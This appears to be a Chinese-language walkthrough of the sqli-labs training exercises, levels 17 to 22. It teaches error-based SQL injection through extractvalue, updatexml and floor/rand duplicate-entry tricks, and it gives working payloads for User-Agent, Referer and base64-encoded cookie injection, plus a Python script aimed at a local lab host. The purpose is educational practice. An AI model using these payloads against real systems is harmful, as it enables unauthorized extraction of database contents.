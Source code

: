 ### 新知识点：报错注入
基于报错的盲注是通过输入特定语句使页面报错，网页中则会输出相关错误信息，从而是我们得到想要的基本信息——数据库名、版本、用户名，这已经成为一套已经成型的公式，然后用普通注入的方法进行注入就好了，所以总结一下这么几个公式

1.直接使用报错：
```mysql
mysql> select 1,2 from user where id ="1" union select count(*),concat('/',(select database()),'/',floor(rand(0)*2))a from information_schema.columns group by a;
1062 - Duplicate entry '/nuaa_msc/1' for key '<group_key>'
```
<!--more-->
2、利用xpath函数—extractvalue报错
```mysql
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),0x73));
1105 - XPATH syntax error: '~nuaa_mscs'
```
concat里面甚至可以再放函数，如图用了group_concat，将用户名密码全部获得（但是好像输出长度有限定，只能输出一定长度结果）
```
mysql> select 1,2 from user where id ="1" and extractvalue(1,concat(0x7e,(select database()),'/',(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x73));
1105 - XPATH syntax error: '~nuaa_msc/articles'
```
3、利用xpath函数—updatexml报错：
```
mysql> select 1,2 from user where id ="1" and updatexml(1,concat(0x7e,(select database()),0x7e),1);
1105 - XPATH syntax error: '~nuaa_msc~'
```
## Hack
### Less-17
题目咋一看是一个重置密码的功能，其实可以通过延时注入来跑，这里用新学的知识点,任意选择上面的一种即可
```
passwd: 1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
uname: admin
```
![](image/51.png)

### Less-18
题目名字叫POST-Header Injection-Uagent field-Error based;
登录成功会出现user agent
![](image/52.png)
可以使用postman 修改User-Agent,注意首先要登录成功
```
User-Agent : 1'or updatexml(1,concat('#',(database())),0),'','')#
```
![](image/53.png)
爆表
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#
```
爆字段
```
User-Agent : 1' or updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')#
```
### Less-19
和18一样，只是把User-Agent改成Referer
![](image/54.png)
### Less-20
Cookie 注入 , 修改自身cookie , 后台获取到这个cookie后 , 会直接拿去数据库里面进行比较 , 比较的时候就有可能注入，登录成功后修改 cookie 即可
首先登录，然后修改cookie，可以通过谷歌Applocation直接修改为
```
'union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
![](image/55.png)
也可以通过脚本
```python
import requests

url = "http://127.0.0.1/Less-20/"

postDate = {
	'uname':'admin',
	'passwd':'admin'
}

headers = {
	'Host':'127.0.0.1',
	'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0',
	'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
	'Accept-Language':'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
	'Accept-Encoding':'gzip, deflate',
	'Referer':'http://127.0.0.1/Less-20/index.php',
	'Cookie':'uname=\' union select 1,group_concat(schema_name),3 from information_schema.schemata#',
	'Connection':'keep-alive',
	'Upgrade-Insecure-Requests':'1',
	'Cache-Control':'max-age=0'
}

content = (requests.post(url, data=postDate, headers=headers).text)
print(content)
```
### Less-21
和上面差不多，但是这里的cookie用过了base64加密而且加上了括号
原始payload为
```
') union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
base64
```
JykgdW5pb24gc2VsZWN0IDEsZ3JvdXBfY29uY2F0KHNjaGVtYV9uYW1lKSwzIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnNjaGVtYXRhIw==
```
同样的方式修改即可
### Less-22
上同，改为双引号,转码前
```
" union select 1,group_concat(schema_name),3 from information_schema.schemata#
```
转码后
```
IiB1bmlvbiBzZWxlY3QgMSxncm91cF9jb25jYXQoc2NoZW1hX25hbWUpLDMgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuc2NoZW1hdGEj
```

[下一篇-23~27题详解](README6.md)
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)